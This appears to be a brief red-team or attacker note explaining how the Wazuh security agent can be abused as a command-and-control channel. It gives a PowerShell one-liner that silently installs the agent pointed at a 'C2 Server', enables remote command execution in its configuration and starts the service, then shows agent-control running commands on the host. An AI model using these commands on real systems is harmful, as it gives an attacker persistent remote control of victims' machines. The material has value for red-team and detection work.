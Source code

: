 ```yaml
---
title: Wazuh
tags:
  - Enum
  - Exec
  - C2
references: 
- 
files: []
---
```



**C2 Connection**

```powershell.exe Invoke-WebRequest -Uri https://packages.wazuh.com/4.x/windows/wazuh-agent-4.5.3-1.msi -OutFile ${env:tmp}\wazuh-agent-4.5.3-1.msi; 
msiexec.exe /i ${env:tmp}\wazuh-agent-4.5.3-1.msi /q WAZUH_MANAGER='C2 Server' WAZUH_REGISTRATION_SERVER='C2 Server' WAZUH_AGENT_GROUP='1'; 
Start-Sleep -Seconds 20;
Add-Content -Path 'C:\Program Files (x86)\ossec-agent\local_internal_options.conf' -Value 'wazuh_command.remote_commands=1'; 
Add-Content -Path 'C:\Program Files (x86)\ossec-agent\local_internal_options.conf' -Value 'logcollector.remote_commands=1'; 
NET START WazuhSvc
```

**Execute Commmands**

once the agents connected the agent-control binary allows you to execute commands

```/var/ossec/bin/agent-control -R 'whoami'```
